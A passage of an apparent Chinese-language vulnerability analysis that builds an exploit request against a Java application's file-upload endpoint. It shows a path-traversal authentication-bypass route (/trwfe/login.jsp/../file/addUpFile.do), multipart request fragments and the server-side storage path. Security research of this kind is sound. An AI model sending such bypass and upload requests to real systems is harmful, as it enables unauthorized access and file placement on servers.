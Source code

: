 1. 首先构造请求路由：

方法路由：@RequestMapping({"addUpFile.do"})

类路由：@RequestMapping({"/file"})

根路径：/trwfe (上一篇有介绍)

于是请求路由为：/trwfe/file/addUpFile.do

结合鉴权绕过最终的路由是：/trwfe/login.jsp/../file/addUpFile.do (上一篇有介绍)

2. 接着我们构造传入的参数

控制器接收file，taskId，relativepath三个参数

首先文件对象的参数名是"file"这个直接构造即可

```java
public Object addUpFile(@RequestParam("file") MultipartFile multipartFile
```

```http
Content-Disposition: form-data; name="file"; filename="test.txt"

for test
------WebKitFormBoundaryJ89XK7WxiQuU7uq1
```

然后是我们的taskId

```java
sb.append(disc + taskId);
```

阅读代码没有发现taskId有什么限制条件，于是随便给一个值就行了，123456

```java
Content-Disposition: form-data; name="taskId"

123456
------WebKitFormBoundaryJ89XK7WxiQuU7uq1--
```

然后我们发现文件路径sb使用到了disc，但是我们的控制器又没有传入这个参数

```java
sb.append(disc + taskId);
```

不过仔细看能发现

```java
this.resultMap = this.fileService.addFile(taskId, multipartFile, relativepath, request, this.DISC, this.resultMap);
```

`this.DISC` 是**控制器类自身的一个成员变量**，不是用户传入的，已经在服务端写死。于是我们跟进一下这个disc的值

在当前控制器类的成员变量定义中可以找到

```java
public String DISC = System.getProperty("java.io.tmpdir").replaceAll("\\\\", "/") + "/";
```
